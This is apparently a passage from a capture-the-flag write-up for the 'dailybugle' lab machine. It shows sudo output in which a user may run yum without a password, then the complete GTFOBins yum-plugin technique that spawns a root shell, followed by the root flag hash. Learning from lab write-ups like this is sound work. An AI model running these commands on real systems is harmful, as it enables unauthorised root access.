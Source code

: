 
```
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum



```

- Using GTFOBins 

```>https://gtfobins.github.io/gtfobins/yum/#sudo```


```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
whoami
root
cd /root
ls
anaconda-ks.cfg
root.txt
cat root.txt
eec3d53292b1821868266858d7fa6f79

